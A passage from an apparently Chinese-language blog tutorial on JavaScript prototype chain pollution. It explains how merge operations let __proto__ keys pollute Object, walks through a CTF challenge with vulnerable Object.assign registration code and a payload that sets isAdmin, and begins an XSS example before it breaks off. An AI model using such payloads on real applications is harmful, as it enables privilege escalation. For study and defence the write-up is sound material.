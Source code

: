 可见，新建的 o3 对象，也存在 b 属性，说明 Object 已经被污染：

![img](https://drun1baby.top/2022/12/29/JavaScript-%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93/MergeExploit.png)

这是因为，JSON 解析的情况下，`__proto__` 会被认为是一个真正的“键名”，而不代表“原型”，所以在遍历 o2 的时候会存在这个键。

merge 操作是最常见可能控制键名的操作，也最能被原型链攻击，很多常见的库都存在这个问题。

### 4. 原型链污染例题

> 例题一、CatCTF 2022 wife（越权）

一道简单的 js 原型链污染，造成的漏洞是越权。题目逻辑很简单，要邀请码才能注册为admin，普通用户只能拿到 wife，没有 flag。

看一下注册的逻辑

JAVASCRIPT

```
app.post('/register', (req, res) => {
    let user = JSON.parse(req.body)
    if (!user.username || !user.password) {
        return res.json({ msg: 'empty username or password', err: true })
    }
    if (users.filter(u => u.username == user.username).length) {
        return res.json({ msg: 'username already exists', err: true })
    }
    if (user.isAdmin && user.inviteCode != INVITE_CODE) {
        user.isAdmin = false
        return res.json({ msg: 'invalid invite code', err: true })
    }
    let newUser = Object.assign({}, baseUser, user)
    users.push(newUser)
    res.json({ msg: 'user created successfully', err: false })
})
```

稍微搜一下 `Object.assign` 可以发现这个方法是可以触发原型链污染的，然后污染 `__proto__.isAdmin` 为 true 就可以了。当然这个题目当时是黑盒，所以需要 fuzz 一下，不放 hint 相当难做。

贴一个 payload

JAVASCRIPT

```
{"__proto__":{"isAdmin":true}
```

- 如此便可以造成越权，拿到 flag

> 例题2、通过原型链污染的 http://prompt.ml/13 一道 xss 攻击

以下摘自 https://xz.aliyun.com/t/7182

**源代码**

JAVASCRIPT

```
 function escape(input) {
    // extend method from Underscore library
    // _.extend(destination, *sources) 
    function extend(obj) {
        var source, prop;
        for (var i = 1, length = arguments.length; i < length; i++) {
            source = arguments[i];
            for (prop in source) {
                obj[prop] = source[prop];
            }
        }
        return obj;
    }
```
